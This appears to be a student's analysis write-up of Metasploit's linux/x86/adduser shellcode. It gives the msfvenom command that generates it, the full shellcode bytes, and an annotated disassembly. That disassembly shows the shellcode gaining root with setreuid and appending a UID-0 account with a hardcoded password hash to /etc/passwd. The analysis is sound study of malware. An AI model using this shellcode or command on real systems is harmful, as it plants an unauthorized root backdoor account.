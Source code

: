 # linux/x86/adduser
- Analysis by: William Moody
- PA-25640

I first dumped the shellcode:
`msfvenom -p linux/x86/adduser USER=user PASS=pass -f c`

Then pasted it into `shellcode.c`, and compiled with:
`gcc shellcode.c -o shellcode`.

Libemu didn't give any meanigful output for this shellcode. I did however use the 
output of ndisasm, created with this command:
`echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x22\x00\x00\x00\x75\x73\x65\x72\x3a\x41\x7a\x77\x31\x37\x63\x54\x6e\x6e\x4a\x41\x41\x41\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u - -b 32 -p intel > linux-x86-adduser.ndisasm`

To analyze the shellcode itself I decided to use GDB with the [pwndbg plugin](https://github.com/pwndbg/pwndbg). 

First I needed to skip my runner code and get to the actual shellcode. The commands needed are:
```
b*main+201
r
stepi
```

The first thing the shellcode does is set the real and effective user id of the process to 0 (root)
---
`setreuid(0, 0);`

00000000  31C9              xor ecx,ecx				; ECX = 0
00000002  89CB              mov ebx,ecx				; EBX = 0
00000004  6A46              push byte +0x46
00000006  58                pop eax					; EAX = 0x46
00000007  CD80              int 0x80				; setreuid(...)

Next open "/etc/passwd", which is the file where users are defined on linux
---
`int fd = open("/etc/passwd", 0x401);`

```
00000009  6A05              push byte +0x5
0000000B  58                pop eax					; EAX = 0x5
0000000C  31C9              xor ecx,ecx				; ECX = 0
0000000E  51                push ecx				
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f	; Push "/etc//passwd\x00"
0000001E  89E3              mov ebx,esp				; EBX = *"/etc/passwd\x00"
00000020  41                inc ecx					; ECX = 1
00000021  B504              mov ch,0x4				; ECX = 0x401 = O_NOCTTY | O_WRONLY 
00000023  CD80              int 0x80				; open(...)
```

Assembly code from here on was incorrectly disassembled by ndisasm. I will include it anyways, but What actually happens is:
---
`buf` is a predefined series of characters with the value
`"user:Azw17cTnnJAAA:0:0::/:/bin/sh\n"`

The shellcode appends this line to "/etc/passwd"
`write(fd, buf, len(buf));`

Then the shellcode exits without setting a specific status code:
`exit();`

```
00000025  93                xchg eax,ebx
00000026  E822000000        call 0x4d				
0000002B  7573              jnz 0xa0
0000002D  65723A            gs jc 0x6a
00000030  41                inc ecx
00000031  7A77              jpe 0xaa
00000033  3137              xor [edi],esi
00000035  63546E6E          arpl [esi+ebp*2+0x6e],dx
00000039  4A                dec edx
0000003A  41                inc ecx
0000003B  41                inc ecx
0000003C  41                inc ecx
0000003D  3A30              cmp dh,[eax]
0000003F  3A30              cmp dh,[eax]
00000041  3A3A              cmp bh,[edx]
00000043  2F                das
00000044  3A2F              cmp ch,[edi]
00000046  62696E            bound ebp,[ecx+0x6e]
00000049  2F                das
0000004A  7368              jnc 0xb4
0000004C  0A598B            or bl,[ecx-0x75]
0000004F  51                push ecx
00000050  FC                cld
00000051  6A04              push byte +0x4
00000053  58                pop eax
00000054  CD80              int 0x80
00000056  6A01              push byte +0x1
00000058  58                pop eax
00000059  CD80              int 0x80
```

